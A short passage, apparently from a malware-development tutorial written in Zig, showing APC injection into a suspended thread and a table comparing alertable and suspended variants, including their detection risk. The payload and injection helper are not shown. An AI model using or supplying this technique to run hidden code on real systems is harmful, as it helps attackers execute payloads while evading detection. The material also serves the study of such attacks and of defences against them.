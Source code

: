 ```zig
hThread = CreateThread(null, 0, dummyFunction, null, CREATE_SUSPENDED, &dwThreadId);
if (hThread == null) {
    print("[!] CreateThread Failed With Error : {}\n", .{GetLastError()});
    return;
}
print("[+] Suspended Target Thread Created With Id : {}\n", .{dwThreadId});

// Queue APC to suspended thread
if (!runViaApcInjection(hThread.?, &Payload)) {
    return;
}

// Resume thread - this will execute the APC instead of the original function
print("[i] Resuming Suspended Thread...", .{});
_ = ResumeThread(hThread.?);
print("[+] DONE\n", .{});
```

### Key Differences

| Aspect               | Alertable Thread                              | Suspended Thread                                |
| -------------------- | --------------------------------------------- | ----------------------------------------------- |
| **Execution Timing** | Immediate when APC is queued                  | After thread is resumed                         |
| **Thread State**     | Running, waiting in alertable state           | Suspended, not running                          |
| **Detection Risk**   | Lower (thread appears to be waiting normally) | Slightly higher (suspended threads are unusual) |
| **Reliability**      | High (guaranteed to execute when queued)      | High (executes on resume)                       |
| **Use Case**         | When you want immediate execution             | When you want to control timing                 |
